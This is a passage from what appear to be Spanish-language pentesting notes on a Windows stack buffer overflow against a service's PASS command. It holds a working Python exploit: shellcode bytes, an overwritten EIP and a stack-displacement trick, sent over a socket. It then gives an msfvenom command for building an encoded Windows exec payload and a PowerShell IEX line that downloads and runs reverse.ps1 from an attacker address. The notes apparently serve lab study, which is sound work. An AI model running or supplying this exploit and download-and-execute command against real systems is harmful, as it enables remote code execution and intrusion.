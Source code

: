 ```python
b"\x77\xc5\x97\x8d\x21\xfb\x65\x4b\x09\xbf\xb1\xa8\x94\x3e"
b"\x37\x94\xb2\x50\x81\x15\xff\x04\x5d\x40\xa9\xf2\x1b\x3a"
b"\x1b\xac\xf5\x91\xf5\x38\x83\xd9\xc5\x3e\x8c\x37\xb0\xde"
b"\x3d\xee\x85\xe1\xf2\x66\x02\x9a\xee\x16\xed\x71\xab\x37"
b"\x0c\x53\xc6\xdf\x89\x36\x6b\x82\x29\xed\xa8\xbb\xa9\x07"
b"\x51\x38\xb1\x62\x54\x04\x75\x9f\x24\x15\x10\x9f\x9b\x16"
b"\x31")

# USING NOPS 
#nops = b"\x90"*16

# USING STACK DISPLACEMENT 
stack_displacement = b"\x83\xEC\x10"

# USING NOPS 
#payload = b'PASS ' + before_eip + eip + nops + shellcode

# USING STACK DISPLACEMENT 
payload = b'PASS ' + before_eip + eip + stack_displacement + shellcode


def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n') #\r\n manera de simular ENTER
        response = s.recv(1024)
        print(response)
        s.send(payload + b'\r\n')
        s.close()


if __name__ == "__main__":
    bof()
```

Como adicional, si quisiéramos ejecutar un comando en particular en lugar de entablar una de las [[Shells]] (**Reverse Shell**), podríamos usar otro payload con la herramienta **msfvenom**

`msfvenom -p windows/exec CMD="{command}" --platform windows -a x86 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`

Por ejemplo el comando podría ser `powershell IEX(New-Object Net.WebClient).dowloadString('http://192.168.1.33:443/reverse.ps1')` para descargarnos un recurso en particular de nuestra url y posteriormente ejecutarlo con powershell, el script podría ser del [repositorio de github de nishang](https://github.com/samratashok/nishang).